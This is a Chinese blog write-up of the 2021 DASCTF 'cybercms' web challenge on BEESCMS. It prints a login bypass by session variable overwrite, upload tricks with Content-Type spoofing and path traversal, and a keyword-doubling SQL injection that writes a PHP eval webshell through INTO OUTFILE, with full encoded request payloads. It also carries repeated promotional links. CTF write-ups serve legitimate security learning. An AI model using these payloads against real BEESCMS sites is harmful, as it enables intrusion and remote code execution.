<!--yml
category: 未分类
date: 2022-04-26 14:51:25
-->

# 【CTF大赛】2021 DASCTF July cybercms 一探再探_IT老涵的博客-CSDN博客

> 来源：[https://blog.csdn.net/HBohan/article/details/119968677](https://blog.csdn.net/HBohan/article/details/119968677)

## 引言

在前不久结束的 2021 DASCTF July X CBCTF 4th 比赛中，有一道名为 cybercms 的 web 题目。

预期解是从后台登录处进行 SQL 注入写入一句话木马，然而咱在做题的时候尝试了另一种思路，用的是后台登录绕过 & 木马上传的打法。

由于比赛的时候半天打不通就十分难受，赛后还是想不明白就来稍微深入探究了一下，经过曲折最后终于成功打通了。

这篇就来记录一下做这道题时候的心路历程吧……

## 题目初探

> cybercms
> 
> 赛博CMS，只为安全而生
> 
> Hint: 信息搜集是一个web手必备的技能


很好，是 BEESCMS，head 里的 description 没改，正文里其实也没改完。

从官网找到了 官方 V4.0 源码下载

（不过貌似没啥用 后来发现还是有用的

## 后台登录绕过 & 上传

参考 【代码审计】 beescms 变量覆盖漏洞导致后台登陆绕过分析，$_SESSION 可以被任意覆盖。

```
POST /

_SESSION[login_in]=1&_SESSION[admin]=1&_SESSION[login_time]=99999999999 
```


然后直接可以访问后台了。

http://xxxxxxxxxxx/admin/admin.php

参考 代码审计就该这么来3 beescms getshell

按照文中的思路，上传一个后缀为 .php 的一句话木马，并修改 Content-Type: image/png 来通过后端对文件类型的校验。
【[网安资料](https://docs.qq.com/doc/DVFNpaGJvRFJiQ2Ro)】
然而发现他文件目录没权限上传啊，随便上传一个正常的图片也是如此……


## 源码泄露

麻了，做到一半才发现有 源码泄露，/www.zip…

diff 大法好啊，看来官方源码还是有用的 2333。

多了个 hackable/ 目录，看起来只有这个目录可写的样子。（虽然最后发现也不行

登录还过滤了一下 SQL 注入。


注意的是还把 /* * 的过滤给去掉了。

## 上传点源码审计

再来看上传部分的源码。

审了一波源码，发现其实可以 构造目录穿越。


$up_file_name2 由 $pic_alt 而来，这个是可控的，只需要构造个目录穿越到 hackable 目录下就完事了。
【[网安资料](https://docs.qq.com/doc/DVFNpaGJvRFJiQ2Ro)】
为了进到这里，上传的时候记得再把 Content-Type: image/png 改好， is_alt 设为 1。

然而还是没打通，报错和上面的类似，也是 PHP 执行的时候文件目录没权限，只不过可以注意到文件名是 .php 了。

（咱也不知道为啥他 $pic_alt 没传进来，留空的话也不是随机数，一脸懵逼

## 另一个上传点审计

于是么得办法，再挖了另一个文件上传的点，考虑通过 修改已上传图片的接口 来进行上传。

相应源码如下。

这里的 $pic_path 和 $pic_name 都是可控的，任意改一个就完事了。当然这是 PHP/5.6.40，%00 截断不可行 2333.

然而还是打不通……

绝绝子，挖了两条上传的路，试着绕到 hackable 目录也打不通……

看来还是文件目录的限制吧。

心态炸了啊啊啊啊啊。

## SQL 注入写马（预期解）

害，赛后看了看大佬的 wp，么得办法，还是得走 SQL 注入写入文件呗。（佛了

再来看上面 diff 出来的关于 SQL 注入的语句。

```
function fl_value($str){
    if(empty($str)){return;}
    return preg_replace('/select|insert | update | and | in | on | left | joins | delete |\%|\=|\.\.\/|\.\/| union | from | where | group | into |load_file
|outfile/i','',$str);
}
define('INC_BEES','B'.'EE'.'SCMS');
function fl_html($str){
    return htmlspecialchars($str);
}
function f1_vvv($str){
    if(empty($str)){return;}
    if(preg_match("/\ /i", $str)){
        exit('Go away,bad hacker!!');
    }
    preg_replace('/0x/i','',$str);
    return $str;
} 
```

过滤了空格，倒是把 /* 过滤去掉了，另外把一些关键词过滤为空了，双写绕过就完事了。

根据代码里登录的 SQL 语句【[网安资料](https://docs.qq.com/doc/DVFNpaGJvRFJiQ2Ro)】

```
$rel=$GLOBALS['mysql']->fetch_asc("select id,admin_name,admin_password,admin_purview,is_disable from ".DB_PRE."admin where admin_name='".$user."' limit 0,1"); 
```

构造 SQL

```
# select xxx into outfile xxx
# <?php eval($_REQUEST['m']);?>

admin'/**/uni union on/**/seselectlect/**/null,null,null,null,0x3c3f706870206576616c28245f524551554553545b276d275d293b3f3e/**/in in to/**/outoutfilefile/**/'/var/www/html/upload/miao.php'# 
```

（咱也不知道为啥 0x 没被过滤为空，双写 0x 发现并没有被删除反而 SQL 执行报错了

Payload:

```
POST /admin/login.php?action=ck_login HTTP/1.1

user=admin%27%2F%2A%2A%2Funi%20union%20on%2F%2A%2A%2Fseselectlect%2F%2A%2A%2Fnull%2Cnull%2Cnull%2Cnull%2C0x3c3f706870206576616c28245f524551554553545b276d275d293b3f3e%2F%2A%2A%2Fin%20in%20to%2F%2A%2A%2Foutoutfilefile%2F%2A%2A%2F%27%2Fvar%2Fwww%2Fhtml%2Fupload%2Fmiao%2Ephp%27%23&password=miao&code=&submit=true&submit.x=43&submit.y=24 
```

当然也可以用 char 函数写入木马。

```
admin'/**/uni union on/**/seselectlect/**/null,null,null,null,char(60,63,112,104,112,32,101,118,97,108,40,36,95,82,69,81,85,69,83,84,91,39,109,39,93,41,59,63,62)/**/in in to/**/outoutfilefile/**/'/var/www/html/upload/miao.php'# 
```

进去发现果然 MySQL 就是 root 用户起来的，于是就能写入文件。

而 PHP 运行在 www-data 用户，/var/www/html 目录是给 www-data 用户了，但子目录没递归变更属主也没给写入权限就离谱。

```
$ ps -ef
PID   USER     TIME  COMMAND
   1 root      0:07 /bin/sh /usr/local/bin/docker-php-entrypoint
   10 root      0:21 /usr/bin/mysqld --user=root --skip-name-resolve --skip-networking=0
   54 root      0:02 php-fpm: master process (/usr/local/etc/php-fpm.conf)
   60 root      0:00 nginx: master process nginx
   61 nginx     0:00 nginx: worker process
   62 www-data  0:00 php-fpm: pool www
   63 www-data  0:01 php-fpm: pool www
19798 root      0:00 sleep 5s
19799 www-data  0:00 ps -ef 
```

也有可能预期解就只有这条路可走吧。



气死了，下次直接 pyflag 算了（bushi


## 上传点再探

噢对了，寻思着咱挖了两个上传点都整不通，实在过意不去啊。

既然前面发现了 www-data 用户只有 /var/html/www 这个路径有权限写入，子目录么有，那可以 传到这个网站的根目录 啊！
【[网安资料](https://docs.qq.com/doc/DVFNpaGJvRFJiQ2Ro)】
这里用的是修改图片的接口，也就是上面说的 第二处上传点。

上传以后抓包修改几个地方，看图。

也就是让 move_uploaded_file 结果是移动到网站根目录下。


```
POST /admin/admin_pic.php?nav=pic_list&admin_p_nav=content HTTP/1.1
Host: a10f5ec3-1cae-476e-bb23-31ed556086dd.node4.buuoj.cn
Content-Length: 1546
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http:
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIZBj4kiaMbZzC9WL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*
```

pic_path 留空也行。【[网安资料](https://docs.qq.com/doc/DVFNpaGJvRFJiQ2Ro)】

